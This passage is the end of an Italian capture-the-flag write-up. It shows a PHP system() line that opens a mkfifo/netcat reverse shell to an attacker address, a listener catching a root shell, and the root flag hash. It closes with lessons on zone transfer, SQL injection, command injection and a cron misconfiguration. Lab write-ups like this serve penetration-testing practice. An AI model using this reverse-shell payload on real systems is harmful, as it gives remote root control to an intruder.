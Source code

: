 ```bash
| into the script here so that we do not have to worry about the                                                                             
| loading of any our classes "manually". Feels great to relax.                                                                               
|                                                                                                                                            
*/                                                                

#Con nano aggiungiamo una shell php che è la seguente :
system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.53 444 >/tmp/f"); ?> 
```

ci  mettiamo  in ascolto con nc e aspettiamo un minuto

```bash
┌──(root㉿kali)-[/home/kali/tool/shell/webshell]
└─# nc -lnvp 4444                                      
listening on [any] 444 ...
```

otteniamo cosi  la nostra shell con prvilegi root

```bash
┌──(root㉿kali)-[/home/kali/tool/shell/webshell]
└─# nc -lnvp 444 
listening on [any] 444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.13] 47842
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

Flag root
```
cat root.txt
82995b244fa7508941c3ec4870eca12c
```

# LESSION LEARNED

Per ottenere un punto d'appoggio iniziale abbiamo sfruttato tre vulnerabilità.

1. La possibilità di eseguire un zone transfer (vedi nslookup) che ci ha permesso di ottenere un elenco di tutti gli host per il dominio. Per evitare che si verifichi questa vulnerabilità, il server DNS deve essere configurato in modo da consentire solo i trasferimenti di zona da indirizzi IP attendibili.
2. Una Sql injection ci ha permesso di aggirare un form di  autetnticazione (manuele e automatica con sqlmap)  
3. Una Command injection ci ha permesso di eseguire comandi di sistema arbitrari

Per passare ai privilegi di root, dovevamo sfruttare una delle seguenti vulnerabilità.
Una configurazione errata della sicurezza in cron 
che prevedeva un processo cron pianificato per eseguire un file di proprietà dell'utente non privilegiato come root. 
Siamo stati in grado di sfruttarlo per ottenere un reverse shell privilegiato
